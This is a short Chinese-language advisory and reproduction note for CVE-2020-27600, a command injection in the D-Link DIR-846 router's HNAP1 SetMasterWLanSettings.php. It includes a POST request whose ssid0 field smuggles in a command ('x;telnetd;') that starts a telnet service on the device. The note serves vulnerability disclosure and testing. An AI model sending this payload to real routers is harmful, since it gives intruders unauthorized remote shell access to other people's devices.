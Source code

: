 # D-Link DIR-846 命令注入漏洞 CVE-2020-27600

## 漏洞描述

D-Link DIR-846 A1_100.26 路由器中的HNAP1/control/SetMasterWLanSettings.php允许远程攻击者通过ssid0或ssid1参数进行执行任意命令。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2020-27600
- https://github.com/pwnninja/dlink/blob/main/DIR-846_SetMasterWLanSettingsCI.md

## 漏洞复现

需要登录Web控制台，然后访问/Wireless.html无线设置页面。

```
POST  /HNAPI HTTP/1.1
...
$data["ssid0"]="'x;telnetd;'"
```

